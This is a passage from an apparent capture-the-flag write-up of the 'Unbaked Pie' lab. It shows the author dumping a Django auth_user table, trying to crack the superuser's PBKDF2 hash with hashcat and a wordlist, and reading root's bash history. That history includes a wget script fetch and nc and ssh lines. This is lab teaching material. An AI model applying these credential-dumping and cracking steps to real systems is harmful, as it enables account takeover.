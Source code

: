 **Table `auth_user`:**
```shell
sqlite> SELECT username, password, is_superuser FROM auth_user;
aniqfakhrul|pbkdf2_sha256$216000${Redacted}|1
testing|pbkdf2_sha256$216000${Redacted}|0
ramsey|pbkdf2_sha256$216000${Redacted}|0
oliver|pbkdf2_sha256$216000${Redacted}|0
wan|pbkdf2_sha256$216000${Redacted}|0
```

**User `aniqfakhrul` is a superuser, let's crack it's password hash:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:58:32]
└> echo 'pbkdf2_sha256$216000${Redacted}' > aniqfakhrul.hash

┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|08:58:39]
└> hashcat -m 10000 aniqfakhrul.hash /usr/share/wordlists/rockyou.txt
[...]
```

However, it seems like we couldn't crack that hash.

**Bash history file:**
```shell
root@8b39a559b296:/home# cat /root/.bash_history | sort |uniq

./check-config.sh 
apt autoremove openssh-client
apt install grub-update
apt install nano
apt install vi
apt install vim
apt remove --purge autoremove open-ssh*
apt remove --purge autoremove openssh-*
apt remove --purge autoremove openssh=*
apt remove --purge ssh
apt update
apt-get install --reinstall grub
cd /tmp
cd bakery/
cd site/
chmod +x check-config.sh
clear
exit
grub-update
ifconfig
ip addr
ls
nano /etc/default/grub
nano settings.py 
nc
ssh
ssh 172.17.0.1
ssh 172.17.0.2
ssh ramsey@172.17.0.1
vi /etc/default/grub
wget https://raw.githubusercontent.com/moby/moby/master/contrib/check-config.sh
```

